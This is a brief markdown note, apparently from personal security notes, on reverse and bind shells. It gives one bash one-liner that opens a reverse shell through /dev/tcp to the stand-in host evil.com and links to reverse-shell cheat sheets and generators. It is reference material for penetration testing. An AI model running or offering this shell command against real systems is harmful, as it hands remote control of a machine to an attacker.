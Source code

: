 # Reverse and Bind shells

It's possible to execute remotely command creating a shell that
connects back to home, like this below in ``bash``

```
exec 5<>/dev/tcp/evil.com/<same unfiltered port> $ cat <&5 | while read line; do $line 2>&5 >&5; done
```

## Links

 - [Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
 - https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/
 - [Obtain PTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
 - [Reverse Shell Generator](https://weibell.github.io/reverse-shell-generator/)
